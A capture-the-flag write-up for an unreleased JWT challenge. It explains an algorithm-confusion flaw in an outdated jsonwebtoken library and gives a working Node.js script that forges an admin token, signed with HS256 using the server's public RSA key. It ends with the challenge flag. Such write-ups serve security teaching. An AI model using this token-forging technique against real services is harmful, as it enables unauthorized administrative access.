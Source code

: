 # Qu's Cute Queue (200 points)
## Writeup
NOTE: Due to some very very strange issues with the challenge working locally, but not working on docker (???),
this challenge was never released. Sad! I really loved this challenge.

We're provided three files! The `index.js`, `package.json`, and `jwtRS256.key.pub`.

From the name "jwtRS256", we get a hint that this is a JWT challenge.
We can find the flag on line 103 in `index.js`, in `/adminPosts`.

The apparent solution is to forge a valid token that matches `fs.readFileSync("jwtRS256.key.pub")`.

A quick look through the package.json and a search on Snyk later, we find that jsonwebtoken is severly outdated!
Using [this vuln](https://security.snyk.io/vuln/SNYK-JS-EXPRESSJWT-575022), and the super nicely provided public key,
we can create an HS256 token with the public key.

## Script
```javascript
const jwt = require("jsonwebtoken");
const fs = require("fs");

const publicKey = fs.readFileSync("jwtRS256.key.pub");


const token = jwt.sign({admin: true}, publicKey);
console.log(token);

jwt.verify(token, publicKey, (err, decode) => {
    if (err) console.log(err);

    console.log(decode);
});
```

## Flag
`gnsCTF{dr0W5y_u53d_typ3_c0nfus10n}`
